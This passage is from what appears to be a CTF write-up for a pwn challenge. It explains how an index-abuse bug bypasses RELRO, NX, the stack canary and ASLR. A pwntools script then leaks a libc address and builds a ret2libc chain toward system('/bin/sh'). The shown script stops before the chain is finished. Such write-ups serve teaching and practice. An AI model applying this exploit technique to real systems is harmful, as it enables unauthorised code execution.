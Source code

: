 
"_What? how? But how the binary protections didn't stop you_": 
1. **To overcome RELRO**: we performed ``RIP`` takeover via the return address on the stack
2. **To overcome NX**: We performed a _ret2libc_ attack
3. **To overcome the stack canary**: We can leak the canary using another _swap_. But in this case, we don't even have to leak it. This is because: by calculating the right index when performing a _swap_, we can go straight to the ret addr and skip the canary. Hence, we keep the canary as-is and never overwrite it ✨.
4. **To overcome ASLR/PIE**: as mentioned above, we leak a ``libc`` pointer and from there, starts calculating offsets.


Below is my solution:

```py
from pwn import *

adjust_leak     = 0xe7  
ret_addr_offset = 4294901771    # 0xffff000b will make the "0x0b" at the end of the number to be used as index specifier(multiplied by 8):    
                                # 0x555555554864    lea    rdx, [rax*8]

libc = ELF('./libc.so.6')
rop  = ROP(libc)
p    = remote('challs.xmas.htsp.ro', 2002)


# leaking a libc pointer
p.sendlineafter('Option:', b'1')  # choosing "1.Swap IDs"
p.sendlineafter('Index 1:', b'0') # swapping between ID[0] with ret_addr_offset
p.sendlineafter('Index 2:', str(ret_addr_offset).encode()) # ID[0x0b] 

# fetching the leak
p.sendlineafter('Option: \n', b'2') # choosing "2.Print database"
p.recvline()  # empty line
id0 = p.recvline() # leaking <__libc_start_main+240>
libc_start_main_240 = id0[:-1].decode().split(' = ')[1]

libc_start_main = (int(libc_start_main_240) - adjust_leak) # getting <__libc_start_main+0>
libc_base       = libc_start_main - libc.symbols['__libc_start_main']

print('libc base :: ', hex(libc_base))


system_addr = libc_base + libc.symbols['system']
bin_sh_str  = libc_base + list(libc.search(b'/bin/sh'))[0]
pop_rdi     = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
libc_adjust = libc_base + rop.find_gadget(['ret'])[0]

# pop rdi
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'2') 
p.sendlineafter('Value:', str(pop_rdi).encode())


p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'2') 
p.sendlineafter('Index 2:', str(ret_addr_offset).encode()) 


# bin sh str
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'1') 
p.sendlineafter('Value:', str(bin_sh_str).encode())


```